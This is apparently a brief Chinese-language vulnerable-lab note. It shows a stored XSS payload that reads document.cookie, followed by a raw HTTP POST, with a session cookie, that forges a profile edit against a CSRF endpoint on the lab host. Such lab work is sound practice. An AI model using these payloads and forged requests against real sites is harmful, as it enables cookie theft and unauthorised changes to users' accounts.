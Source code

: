 ![image-20250901190227520](images/image-20250901190227520.png)

利用存储xss漏洞

```
<script>alert(document.cookie)</script>
靶场存在如上存储型xss漏洞，利用漏洞发一下的包
POST /vul/csrf/csrfpost/csrf_post_edit.php HTTP/1.1
Host: 47.242.11.182:8080
Content-Length: 47
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://47.242.11.182:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://47.242.11.182:8080/vul/csrf/csrfpost/csrf_post_edit.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=5bi35d0s88l9fsig67l6k60r26
Connection: keep-alive

sex=1&phonenum=12&add=22&email=22&submit=submit
```


